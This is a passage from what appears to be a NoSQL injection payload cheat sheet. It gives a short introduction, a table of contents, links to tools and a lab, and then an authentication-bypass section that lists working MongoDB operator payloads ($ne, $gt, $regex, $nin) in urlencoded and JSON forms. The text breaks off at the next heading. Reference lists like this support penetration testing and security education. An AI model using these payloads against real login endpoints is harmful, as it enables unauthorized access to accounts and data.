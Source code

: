 # NoSQL Injection

> NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Summary

* [Tools](#tools)
* [Exploit](#exploits)
  * [Authentication Bypass](#authentication-bypass)
  * [Extract length information](#extract-length-information)
  * [Extract data information](#extract-data-information)
* [Blind NoSQL](#blind-nosql)
  * [POST with JSON body](#post-with-json-body)
  * [POST with urlencoded body](#post-with-urlencoded-body)
  * [GET](#get)
* [MongoDB Payloads](#mongodb-payloads)
* [References](#references)

## Tools

* [NoSQLmap - Automated NoSQL database enumeration and web application exploitation tool](https://github.com/codingo/NoSQLMap)
* [nosqlilab - A lab for playing with NoSQL Injection](https://github.com/digininja/nosqlilab)
* [Burp-NoSQLiScanner - Plugin available in burpsuite](https://github.com/matrix/Burp-NoSQLiScanner)  

## Exploit

### Authentication Bypass

Basic authentication bypass using not equal ($ne) or greater ($gt)

```json
in DATA
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

### Extract length information
